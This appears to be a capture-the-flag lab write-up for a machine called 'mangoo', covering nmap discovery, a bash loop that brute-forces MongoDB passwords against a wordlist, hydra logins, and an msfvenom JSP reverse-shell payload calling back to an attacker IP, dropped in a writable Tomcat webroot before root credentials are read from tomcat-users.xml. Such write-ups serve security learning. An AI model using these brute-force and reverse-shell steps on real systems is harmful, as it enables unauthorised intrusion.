









# mangoo


__MACHINE IP__: 10.1.1.21

__DATE__: 9/10/2019

__START TIME__: 11:47 PM

## NMAP



So quite a few ports open. I tried looking around those services but nothing made sense to me. After spending lot of time to find the proper foothold I deicded to ask @andreaz, he told me to do a full port scan to find something useful.

We can see that there is a mongodb server.

## Mongodb

I tried to connect to it with admin user but it didn't worked

```bash
#!/bin/bash
for pass in `cat CTFs/lists/rockyou.lst`; do
    echo "Trying $pass"
    mongo 10.1.1.21 --port 27018 -u "admin" -p "$pass" --authenticationDatabase "admin"
done
```

This script can help us dictinary attack the mongodb service.



We can see that `iloveyou` is the password. So you can also use

```
➜ mongo 10.1.1.21 --port 27018 -u "admin" -p "iloveyou" --authenticationDatabase "admin"
```



I had usernames and password so I made a list for user and pass and passed them to `hydra.`



Then I logged in as `chwaki:valentine` and got user




***

## Privilege escalation

The enumeration script didn't gave away anything interesting except the fact that there were two user `chawki` and `tomcat8`. I started to look around but couldn't find anything. Then I realized that the website on port `8080` said something about `tomcat` being installed on `Catalina`. So I searched around for some tomcat exploit with catalina and I came across [Apache Tomcat 8/7/6 (Debian-Based Distros) - Local Privilege Escalation](https://www.exploit-db.com/exploits/40450) but this require us to be `tomcat` user.

Then I noticed that website also tells that tomcat is installed at `/var/lib/tomcat8/webapps/ROOT/`. So I decided to look at that directory and noticed that I have write permission in that directory that means I can make a new shell file and then visit it from website and it will be triggered.

```
➜ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.254.0.10 LPORT=4444 -f raw > shell.jsp
```

Then placed it there



Then I used find command to see if I can find any interesting directory for tomcat8 user,



I noticed there was file named `tomcat-users.xml` and when I read the file I got the password for root user which I used to `su root`




